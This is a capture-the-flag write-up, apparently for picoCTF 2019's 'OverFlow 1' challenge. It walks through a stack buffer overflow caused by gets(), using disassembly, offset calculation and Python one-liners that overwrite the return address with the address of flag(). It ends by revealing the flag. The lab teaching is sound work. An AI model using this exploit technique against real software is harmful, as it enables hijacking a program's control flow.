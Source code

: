 # Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```c
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` assembly
 0x08048671 <+18>:    sub    esp,0xc
 0x08048674 <+21>:    lea    eax,[ebp-0x48]
 0x08048677 <+24>:    push   eax
 0x08048678 <+25>:    call   0x8048430 <gets@plt>
 0x0804867d <+30>:    add    esp,0x10
 0x08048680 <+33>:    call   0x8048714 <get_return_address>

```
So we need to give an input of 0x48 bytes + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```bash
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"C"*4)' | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0x43434343 !
Segmentation fault (core dumped)

```

Now , Instead of 4 C's we add in the address of the flag() function in the little endian format.
``` bash
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!
